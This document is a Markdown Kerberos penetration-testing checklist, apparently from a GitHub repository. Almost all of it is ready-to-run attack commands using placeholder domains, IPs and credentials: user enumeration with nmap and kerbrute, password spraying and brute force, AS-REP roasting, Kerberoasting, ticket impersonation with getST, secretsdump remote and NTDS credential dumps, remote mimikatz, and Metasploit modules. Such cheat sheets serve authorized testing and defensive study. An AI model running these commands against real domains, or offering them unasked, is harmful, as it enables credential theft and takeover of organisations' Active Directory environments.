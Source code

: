 # Kerberos Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating Kerberos (port 88), I realistically expect to find:

- [ ] Valid domain usernames via Kerberos protocol responses
- [ ] Accounts vulnerable to AS-REP Roasting (no pre-auth)
- [ ] Service accounts with SPNs vulnerable to Kerberoasting
- [ ] Weak credentials through password spraying/brute-force
- [ ] Service ticket extraction for offline cracking
- [ ] Ability to impersonate users via Silver Ticket attacks
- [ ] Dump of domain hashes using credentials or tickets
- [ ] Domain user/group enumeration via LDAP

---

## ✅ Kerberos Pentest Checklist

- [ ] **Nmap Enumeration**
  - Discover valid usernames using NSE script.
    ```
    nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='test.local',userdb=usernames.txt 10.10.10.1
    ```

- [ ] **Kerbrute - Username Enumeration**
  - Enumerate valid users without authentication.
    ```
    kerbrute userenum -d test.local usernames.txt
    ```

- [ ] **Kerbrute - Password Spray**
  - Test a single password against many users.
    ```
    kerbrute passwordspray -d test.local domain_users.txt password123
    ```

- [ ] **Kerbrute - Bruteforce One User**
  - Attempt multiple passwords against a single user.
    ```
    kerbrute bruteuser -d test.local passwords.txt john
    ```

- [ ] **AS-REP Roasting (No Pre-Auth Accounts)**
  - Extract crackable hashes from users without pre-auth.
    ```
    python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt
    ```

- [ ] **Kerberoasting (SPNs)**
  - Dump service tickets to crack offline.
    ```
    python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
    ```
  - Targeted approach:
    ```
    python3 targetedKerberoast.py -d test.local -u john -p password123 --dc-ip 10.10.10.1
    ```

- [ ] **Silver Ticket Attack**
  - Forge a ticket for lateral movement or persistence.
    ```
    python3 getST.py -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john:password123
    ```

- [ ] **Domain User Enumeration**
  - Dump all users with credentials.
    ```
    python3 GetADUsers.py -all test.local/john:password123 -dc-ip 10.10.10.1
    ```

- [ ] **Dump Credentials - secretsdump.py**
  - Remote dump using valid credentials.
    ```
    python3 secretsdump.py test.local/john:password123@10.10.10.1
    ```
  - Offline NTDS dump:
    ```
    python3 secretsdump.py -ntds C:\Windows\NTDS\ntds.dit -system C:\Windows\System32\Config\system -dc-ip 10.10.10.1 test.local/john:password123@10.10.10.2
    ```

- [ ] **Mimikatz (Remote Execution via Python Port)**
  - Extract passwords and hashes if available.
    ```
    python3 mimikatz.py test.local/john:password123@10.10.10.1
    ```

---

## ✅ Metasploit Modules

- **AS-REP Roasting**
    ```
    use auxiliary/analyze/kerberos/kerberos_asrep_roast
    ```

- **Kerberos SPN Enumeration**
    ```
    use auxiliary/gather/kerberos_enumusers
    ```
